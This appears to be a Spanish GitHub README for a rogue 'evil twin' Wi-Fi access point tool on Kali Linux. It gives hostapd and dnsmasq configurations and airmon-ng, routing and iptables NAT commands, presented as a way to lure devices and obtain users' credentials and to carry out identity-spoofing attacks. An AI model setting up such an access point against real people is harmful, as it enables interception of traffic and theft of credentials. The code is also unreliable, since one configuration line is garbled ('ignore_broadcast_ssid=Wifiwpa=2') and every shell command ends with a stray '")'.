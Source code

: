 # Fake AP

Fake AP permite a los usuarios crear y configurar puntos de acceso inalámbricos falsos, imitando redes legítimas para atraer a usuarios y dispositivos. Esto es especialmente útil para evaluar la seguridad de una red y poner a prueba las vulnerabilidades de los dispositivos conectados. Los investigadores pueden utilizar Fake AP para analizar la conducta de los usuarios frente a puntos de acceso falsos, recopilar información de conexión y llevar a cabo ataques de suplantación de identidad.

## Requisitos

* Kali Linux
* Adaptador tp-link tl wn722n

## Configuración

Primero vamos a instalar los servicios **hotapd** y **dnsmasq** con los siguientes conmandos:

```
sudo apt-get install hostapd dnsmasq -y
```

Luego vamos a configurar los archivos **hostapd.conf** y **dnsmasq.conf**

hostapd.conf:
```conf
interface=wlan0
driver=nl80211
ssid=Wiifi-nombre # Nombre de la red
hw_mode=g
channel=7
macaddr_acl=0
ignore_broadcast_ssid=0
ignore_broadcast_ssid=Wifiwpa=2
wpa_passphrase=contraseña # Contraseña de la red
wpa_key_mgmt=WPA-PSK
wpa_pairwise=CCMP
wpa_group_rekey=86400
ieee80211n=1
wme_enabled=1
```

dnsmasq.conf:
```conf
interface=wlan0
dhcp-range=192.168.1.2,192.168.1.30,255.255.255.0,12h
dhcp-option=3,192.168.1.1
dhcp-option=6,192.168.1.1
server=8.8.8.8
log-facility=/home/usuario/dnsmasq.log
log-queries
log-dhcp
listen-address=127.0.0.1
```

Ahora vamos a configurar para obtener las credenciales del usuario:
```bash
airmon-ng start wlan0")
ifconfig wlan0 up 192.168.1.1 netmask 255.255.255.0")
route add -net 192.168.1.0 netmask 255.255.255.0 gw 192.168.1.1")
iptables --table nat --append POSTROUTING --out-interface eth0 -j MASQUERADE")
iptables --append FORWARD --in-interface wlan0 -j ACCEPT")
```

Por ultimo vamos a jecutar los archivo de configuracion **hostapd.conf** y **dnsmasq.conf**
```
sudo su
hostapd hostapd.conf
```

En otra terminal:
```
sudo su
dnsmasq -C dnsmasq.conf -d
```

